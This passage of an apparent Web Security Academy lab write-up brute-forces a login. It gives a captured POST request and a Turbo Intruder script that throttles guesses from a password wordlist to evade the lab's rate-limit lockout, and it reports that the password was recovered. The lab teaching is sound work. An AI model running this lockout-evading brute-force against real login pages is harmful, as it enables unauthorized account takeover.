 2. lets brute force its password- we wil use TI again cause its fun. we prepare a new request with the valid username and the password as the parameter to brute force:
```
POST /login HTTP/1.1
Host: 0a3700400316cd69c028186e00af0049.web-security-academy.net
Cookie: session=SVGaeqsTwPhuIuCTXbUjuFO5uiAwjE4L
Content-Length: 32

username=as400&password=%s
```

lets try **examples/ratelimit.py** (its might be helpfull to avoid the 1 minute pendelty...):
```python
# Author: https://github.com/abiwaddell
# Throttle the attack per-request, and per X requests.
# Full description at https://github.com/abiwaddell/Run-Pause-Resume
import time

# Parameters to configure
triedWords=20
timeMins=0
timeSecs=5
throttleMillisecs=200

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           pipeline=False,
                           engine=Engine.BURP
                           )

    for i in range(3, 8):
        engine.queue(target.req, randstr(i), learn=1)
        engine.queue(target.req, target.baseInput, learn=2)

    secs=timeMins*60+timeSecs
    n=0
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /passwords.txt'):
        time.sleep(throttleMillisecs/1000)
        engine.queue(target.req, word.rstrip())
        n+=1
        if(n==triedWords):
            time.sleep(secs)
            n=0

def handleResponse(req, interesting):
    if interesting:
        table.add(req)
```

 run the example as is to get a baseline - surprisingly we get only 1 response in the table - and its the password! - 
 